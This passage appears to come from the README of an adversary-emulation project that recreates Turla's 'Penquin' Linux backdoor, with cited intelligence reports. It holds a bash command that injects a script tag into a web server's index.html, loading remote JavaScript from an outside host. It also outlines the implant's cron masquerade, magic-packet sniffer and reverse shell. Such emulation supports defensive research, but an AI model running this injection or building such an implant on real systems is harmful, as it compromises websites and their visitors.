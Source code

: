 ```bash
echo "<script>if (document.getElementById('xyz')) {{}} else {{ var gam = document.createElement('script'); gam.type = 'text/javascript'; gam.async = true; gam.src = ('http://anto-int.com/counter.js'); var sm = document.getElementsByTagName('script')[0]; sm.parentNode.insertBefore(gam, sm); var fl = document.createElement('span'); fl.id = 'xyz'; var d =  document.getElementsByTagName('div')[0]; d.parentNode.insertBefore(fl, d);}}</script>" >> /var/www/html/index.html
```

* Wait 1 minute and then send the following command to close the reverse shell

```bash
exit
```

### :moyai: Source Code

* [Penquin](Penquin.) ([Network Sniffer](sniff.c) & [Penquin Installer](main.c))
  * [Writes the sniffer (Penquin) to disk](main.c#L220)
  * [Moves Penquin to /usr/bin](main.c#L121)
  * [Creates a service file](main.c#L173)
  * [Stops cron service](main.c#L143)
  * [Executes Penquin as cron](main.c#L198)
  * [Real cron starts as child process](sniff.c#L198)
  * [Installs packet sniffer on eth0](sniff.c#L482)
  * [Magic packet filter criteria](sniff.c#L437-L442)
  * [Execute reverse shell](sniff.c#L405)
  * [sendPacket.py](sendPacket.py)

### :microscope: Cited Intelligence

* <https://www.leonardo.com/documents/20142/10868623/Malware+Technical+Insight+_Turla+%E2%80%9CPenquin_x64%E2%80%9D.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/07180251/Penquins_Moonlit_Maze_PDF_eng.pdf>
* <https://securelist.com/the-penquin-turla-2/67962/>
* <https://www.youtube.com/watch?v=JXsjRUxx47E&t=647s>
* <https://lab52.io/blog/looking-for-penquins-in-the-wild/>
* <https://www.welivesecurity.com/2020/03/12/tracking-turla-new-backdoor-armenian-watering-holes/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
